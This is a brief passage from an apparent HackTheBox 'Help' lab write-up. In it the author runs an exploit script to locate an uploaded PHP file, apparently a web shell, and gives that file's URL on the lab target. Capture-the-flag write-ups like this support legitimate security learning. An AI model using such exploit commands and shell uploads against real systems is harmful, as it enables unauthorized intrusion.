![](/images/hackthebox/help/17.png)
<br> Then I ran the exploit and it found the file immediately :
`python exploit.py http://10.10.10.121/support/ rick.php`
![](/images/hackthebox/help/18.png)
<br>
<br>
`http://help.htb/support/uploads/tickets/11559b997fcb9a724cbc0e2a6a4b98a3.php`
![](/images/hackthebox/help/19.png)
<br>